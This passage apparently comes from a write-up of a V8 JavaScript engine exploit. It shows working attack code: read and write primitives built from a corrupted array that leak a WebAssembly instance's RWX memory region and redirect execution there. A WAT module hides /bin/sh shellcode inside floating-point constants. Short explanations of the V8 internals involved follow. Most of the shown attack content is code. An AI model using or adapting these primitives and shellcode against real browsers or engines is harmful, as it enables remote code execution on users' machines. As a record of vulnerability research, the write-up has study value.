```js
    oob[0] = itof(BigInt(val));
}

function read_64(addr){
    corrupted_instance.a[off] = itof(BigInt(0x3*0x100000000 + addr-8));
    return ftoi(oob[0]);
}

let addr_wasm = addrof(wasm_instance);
let addr_rwx = read_64(addr_wasm + 0x48);

print("Leaks:")
print("wasm_isntance: " + addr_wasm.toString(16));
print("RWX region: " + addr_rwx.toString(16));

let shell_off = 0x81an

// get the shellcode in memory.
f1();
write_64(addrof(wasm_instance_helper)+0x48, addr_rwx+shell_off);

// trigger the /bin/sh syscall.
f2();
```

### wat code - Smuggling shellcode:
Here each floating point when in memory acts as our shellcode.
```wat
(module
  (func (export "main") (result f64)
    f64.const 1.630394162327604e-270
    f64.const 1.630523884017562e-270
    f64.const 1.6304934513099134e-270
    f64.const 1.6415294311136155e-270
    f64.const 1.6306027780368592e-270
    f64.const 1.6306160067349917e-270
    f64.const 1.6305242777505848e-270
    f64.const 1.6305242777505848e-270
    drop
    drop
    drop
    drop
    drop
    drop
    drop
))
```

## Extras
- **`new.target`**: This property indicates whether an object was instantiated using the `new` keyword. For class constructors, it provides a reference to the function with which the object was created, allowing for better control and functionality in class hierarchies.
- **`Reflect.construct`**: This method creates a new object using the specified `target` class constructor along with a provided argument list. It enables more flexible instantiation of objects, especially when dealing with inheritance and prototype chains.
- **Allocation Folding**: When the V8 engine anticipates a need for additional space in the future, it attempts to allocate the entire required memory in a single operation. This technique can optimize memory usage but may lead to vulnerabilities if not managed properly.
- **`FindNonDefaultConstructorOrConstruct`**: This function constructs an object by traversing the prototype chain to find a non-default constructor, invoking the appropriate `super()` constructor as needed. The optimization method `VisitFindNonDefaultConstructorOrConstruct` aims to streamline this process, enhancing performance.
